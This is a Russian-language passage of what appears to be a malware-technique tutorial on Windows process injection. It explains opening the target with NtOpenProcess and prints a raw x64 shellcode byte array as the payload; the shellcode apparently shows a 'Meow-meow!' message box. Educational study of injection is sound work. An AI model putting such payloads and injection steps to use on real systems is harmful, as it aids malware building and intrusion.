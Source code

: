 ![code injection 5](./images/32/2021-12-15_18-12.png){width="80%"}    

Как видно, для открытия процесса я использовал Native API [функцию NtOpenProcess](https://cocomelonc.github.io/tutorial/2021/12/11/malware-injection-11.html):    

![code injection 5.1](./images/32/2021-12-15_18-20.png){width="80%"}    

Затем записываем полезную нагрузку:    

```cpp
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```
